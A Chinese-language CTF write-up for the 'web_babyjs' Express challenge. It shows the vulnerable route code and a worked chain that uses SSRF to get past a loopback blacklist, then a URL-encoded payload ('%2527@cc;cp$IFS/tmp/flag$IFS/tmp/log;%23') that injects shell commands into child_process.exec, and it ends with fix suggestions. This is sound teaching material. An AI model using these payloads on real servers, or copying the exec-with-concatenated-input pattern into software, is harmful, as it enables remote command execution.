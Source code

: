 # Web题：web_babyjs

> 该题为js网站题目，使用js服务端express框架。

## 0x00. 漏洞成因

在路由文件`web_babyJS/routes/index.js`中，代码如下：

```javascript
var express = require('express');
var config = require('../config');
var url=require('url');
var child_process=require('child_process');
var fs=require('fs');
var request=require('request');
var router = express.Router();


var blacklist=['127.0.0.1.xip.io','::ffff:127.0.0.1','127.0.0.1','0','localhost','0.0.0.0','[::1]','::1'];

router.get('/', function(req, res, next) {
    res.json({});
});

router.get('/debug', function(req, res, next) {
    console.log(req.ip);
    if(blacklist.indexOf(req.ip)!=-1){
        console.log('res');
        var u=req.query.url.replace(/[\"\']/ig,'');
        console.log(url.parse(u).href);
        let log=`echo  '${url.parse(u).href}'>>/tmp/log`;
        console.log(log);
        child_process.exec(log);
        res.json({data:fs.readFileSync('/tmp/log').toString()});
    }else{
        res.json({});
    }
});


router.post('/debug', function(req, res, next) {
    console.log(req.body);
    if(req.body.url !== undefined) {
        var u = req.body.url;
        var urlObject=url.parse(u);
        if(blacklist.indexOf(urlObject.hostname) == -1){
            var dest=urlObject.href;
            request(dest,(err,result,body)=>{
                res.json(body);
            })
        }
        else{
            res.json([]);
        }
    }
});

module.exports = router;

```

根据代码可以看出如下信息：

1. `line22~24`执行系统命令，将参数url的值写入`/tmp/log`文件，但是命令用引号引起来了，并且在`line20`过滤了单引号和双引号。得想办法绕过过滤最中形成单或双引号。

2. GET请求/debug，要求客户IP在`blacklist`数组中，即要求客户来自于本地。显示`/tmp/log`文件内容，并执行第1点，也就是把url参数内容写入`/tmp/log`文件。

3. POST请求/debug，接受参数url，服务器会去访问url参数的值，但要求url的host不能出现在`blacklist`中，实际上`127.0.0.1~127.255.255.255`均是本地回环(Loopback, lo)。
4. 根据第3点得知的POST请求的功能，可知，使用POST请求/debug可让服务器产生对本地的GET请求。

构造如下请求即可绕过黑名单限制，成功执行echo命令写log：

![bypass_blacklist](bypass_blacklist.jpg)

下一步只需绕过单双引号的过滤。

在`line22`行调用的是`url.parse(u).href`，变量`u`是上一步过滤掉单双引号之后的网址。*记住，一个完整的网址形式是*：

> **scheme://username:password@host:port/path?getkey=getval&getkey2=getval2**

NodeJs的url库中，parse函数对`username`、`password` 进行了一次url解码。参见：

> [[node](https://github.com/nodejs/node)/[lib](https://github.com/nodejs/node/tree/master/lib)/[**url.js**](https://github.com/nodejs/node/blob/master/lib/url.js)

```javascript
343:    if (atSign !== -1) {
344:      this.auth = decodeURIComponent(rest.slice(0, atSign));
345:      start = atSign + 1;
346:    }
```

当有at符号(@)时，@前面的用户名密码会被decodeURIComponent解码。所以构造GET请求`http://127.1.2.3:8088/debug?url=http://%2527@cc;%23`会使`log`变量内容变为：

```bash
echo  'http://'@cc/;#'>>/tmp/log
```

因为GET请求会显示`/tmp/log`的内容，所以考虑把`/tmp/flag`拷贝到`/tmp/log`。

想要构造出：

```bash
echo  'http://'@cc/;cp /tmp/flag /tmp/log;#'>>/tmp/log
```

那么GET请求应该是：

`http://127.1.2.3:8088/debug?url=http://%2527@cc;cp /tmp/flag /tmp/log;%23`

但是发现空格就算使用%20或%2520等无论如何都无法出现。

> shell环境中$IFS为空格

更正GET请求：

`http://127.1.2.3:8088/debug?url=http://%2527@cc;cp$IFS/tmp/flag$IFS/tmp/log;%23`

将该请求装载到POST请求中：

```http
POST /debug
Host: babyjs.web:8088
Content-Type: application/x-www-form-urlencoded

url=http://127.1.2.3:8088/debug?url%3Dhttp://%252527@cc;cp$IFS/tmp/flag$IFS/tmp/log;%2523
```

> **❗注意** 经过第一层POST请求后参数会被解码一次，所以从GET请求再装载到POST请求，需要将%加一层转码成%25

如图：

![POST请求](post_request.jpg)

![nodejs控制台](node_console.jpg)

此时再通过POST提交任意GET请求，使程序显示`/tmp/log`，会发现、`/tmp/flag`已经被复制到了`/tmp/log`，并且被我们读到了。如图：

![读到flag](show_flag.jpg)

## 0x01. 漏洞修复

1. 将`url.parse(u).href`过滤掉引号再拼接给`log`字符串。
2. 也许有更优雅的命令执行方式。
3. 避免SSRF(Server Side Request Forgery)